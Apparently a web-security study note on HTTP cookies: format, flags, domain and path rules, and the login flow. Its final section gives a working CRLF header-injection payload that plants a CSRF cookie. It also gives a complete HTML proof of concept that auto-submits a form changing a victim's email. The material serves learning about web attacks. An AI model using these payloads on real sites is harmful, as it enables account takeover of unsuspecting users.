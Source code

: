 
### General Notes

Created to make [[HTTP]] [[Protocol]] stateful.
- They are textual information installed by a website into the Cookie Jar of the **browser**.
- Storing data on the client side instead of the server side ([[Sessions]]).

> Cookie Jar is storage space where web browser stores cookies.

Can be viewed in JavaScript using `document.cookie` through the DOM, or the Document Object Model.

---
### Cookie Format

Servers can set cookie via the `Set-Cookie` [[HTTP]] header in a response message.
Cookies contain the following data:
* **Cookie Content**: Text Key-Value pairs that contain data.
* **Expiration Date**: The data when the cookie is no longer to be used, or not to be sent by the browser to the server.
* **Path**: sends the cookies to all subsequent requests to this path and everything under it.
* **Domain**: the scope of the cookie, or which domains and subdomains it has access to.
* `HTTPOnly` Flag: only HTML technology can read the cookie. Secure against [[Cross Site Scripting (XSS)]].
* `Secure` Flag: Cookies are only sent over [[HTTPS]].

##### Cookie Policy

Cookies are sent to the valid domain and path, and only when they are not expired.
- They also are managed according to the flags that are set. 
- Cookies are sent to the subdomains of that domain as well.

> The **Path** specifies the folder that the cookie is sent to in the **domain**. If the path is empty, it is sent to the whole domain.

If **domain** is not set, the `Host-only` flag is set, and the cookie is only sent to the exact hostname of the request. 
- The domain becomes set to the hostname.

---
### Cookie Protocol

Login Example: 
1. Browser sends a POST request with username and password
2. Server sends a response with a `set-cookie` header to tell the browser to install the cookie
3. For every further request, the browser considers the cookie data and flags
4. If the checks pass, then a cookie will be inserted in the header of the browser request

> What this does, is that the browser now manages to maintain a *stateful* connection to the server, meaning that all subsequent requests don't need authentication again.

---
### Cookie Domain

A cookie with a domain value specified is only sent to the target with the same domain value.
- A cookie with a domain value different from the target but is a suffix of the target domain then it is also sent.

Higher level subdomains cannot set cookies for lower level subdomains.
- But lower level subdomains can set cookies for higher level subdomains.

> Cookie with `host-only` flag set to true is one that does not have a domain value. Sent only to target domain that set it.

---
### Modifying Cookies for [[CSRF]]

- A technique to check for adding cookies is through header injection.
```
/?search=mins
Set-Cookie: csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p;
```

- Adding a new line then adding the `Set-Cookie` header with the cookie. To use it, it must be URL-encoded. [[Web Encoding]].
```
/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b
```

- To use it in the HTML payload to set a cookie, replace the `script` tags with:
```HTML
<img src="https://URL/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b%20SameSite=None" onerror="document.forms[0].submit()">
```

- This loads the page that sets the cookie, then since it isn't an image, the `onerror` attribute is fired submitting the form.
``` HTML
<html> 
	<body> 
		<form action="https://URL/path" method="POST"> 
			<input type="hidden" name="email" value="newmins@mins.com" /> 
			<input type="hidden" name="csrf" value="<csrf-token>" />
		</form> 
		<img src="https://URL/?search=test%0d%0aSet-Cookie:%20csrfKey=IBuIZ44nmISVeACecCzxOeLyT1YIxL9p%3b%20SameSite=None" onerror="document.forms[0].submit()">
	</body> 
</html>
```

---
